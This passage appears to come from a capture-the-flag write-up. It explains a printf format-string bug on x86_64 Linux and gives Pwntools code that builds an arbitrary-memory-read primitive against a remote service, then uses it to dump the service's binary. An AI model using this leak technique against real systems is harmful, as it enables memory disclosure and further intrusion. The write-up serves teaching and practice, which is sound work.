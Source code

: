 On such a x86_64 linux machine, the arguments are given in the registers: `rdi, rsi, rdx, rcx, r8, r9` and then spills the rest onto the stack. The first argument is the format specifier which is given in `rdi`, hence there `5` registers we can reference, before we reach the stack, which will correspond to argument `6` and onwards, which can retrieved by using the symbol `$` to index the list of arguments `%<num>$p`. A bit of toying with this idea we can make `printf` print our input:
```
>> AA%7$pBBCCCCCCCC
AA0x4343434343434343BBCCCCCCCC
```
between `AA` and `B` we have `0x4343434343434343` which is the hexadecimal representation of `CCCCCCCC`. Some reasoning for using `%7$p`, is due to that the using `%6$p` will leak the first qword on the stack, which presumably is the buffer, hence the string `"AA%7$pBB"`, but we can then get the next qword `"CCCCCCCC"` by using `7`.

Now using this approach with `"%s"`, we can then print/leak the string at address `0x4343434343434343` (this would most likely segfault). We can make a function primitive to leak data at address `addr` using `Pwntools`:

```python
r = remote(HOST, PORT)
@MemLeak
def leaker(addr):
  r.recvuntil(b">> ")
  r.send(b'AA' + f'%7$s'.encode() + b'BB' + p64(addr))
  leak = r.recvline()
  get = leak.split(b'AA')[1].split(b'BB')[0] + b'\x00'
  return get
```
This is not the prettiest code, but it works - one could perhaps use `p64(addr) + '\x00' + %6$s` using the reasoning I gave above. Notice that we add a nullbyte in the end of the leak before returning, as the convention/definition of a string, states that it ends in a nullbyte - and we are printing strings with `"%s"`.
  * The `@MemLeak` decorator is from `Pwntools` and simply adds some nice features (e.g. caching already leaked addresses).
  * We do not check if `addr` contains newlines, which might be a concern if some newline sensitive function is used to read input, such as `fgets/gets`. These functions stop when reaching a newline character, meaning that it would not be possible to leak memory from addresses containing a `0x0a` byte. However, by toying with the service as we did before, one will find that is does not seem that the service will treat newline characters differently from other bytes.

We can use this primitive to leak the binary and then check what we are actually dealing with (and get some further insights into the vulnerability/overflow that seemed to be present before):
```python
# Leaks `n` bytes starting from the address `start` until some error occurs.
def leak_binary(start, n):
  binary = b""
  off = 0
  while off < n:
    try:
      leaked  = leaker(start+off)
      off    += len(leaked)
      binary += leaked
    except:
      return binary
  return binary
```
